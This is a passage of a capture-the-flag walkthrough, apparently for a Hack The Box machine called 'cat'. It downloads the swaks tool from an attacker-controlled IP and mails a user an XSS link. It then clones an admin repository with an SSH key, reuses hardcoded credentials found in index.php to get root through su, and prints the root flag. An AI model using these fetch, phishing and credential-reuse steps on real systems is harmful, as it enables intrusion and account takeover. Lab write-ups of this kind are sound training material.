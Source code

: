 on box:
```bash
curl 10.10.14.5:5000/static/swaks -O
chmod +x ./swaks
./swaks --to "jobert@localhost" --from "axel@localhost" --header "Subject: Click me" --body "http://localhost:3000/axel/xss" --server localhost --port 25
```

on host:
```bash
GIT_SSH_COMMAND='ssh -i ~/.ssh/id_rsa_htb' git clone git@cat.htb:administrator/Employee-management.git
```

Then we find some credentials on index.php.
```php
<?php
// index.php:2 ~ 4
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';
```

They don't work on ssh. Tried on jobert and root. But they did work for root with `su - root`.

```bash
root@cat:~# cat root.txt
572da76349e5bf263f65e9511aa97250
```
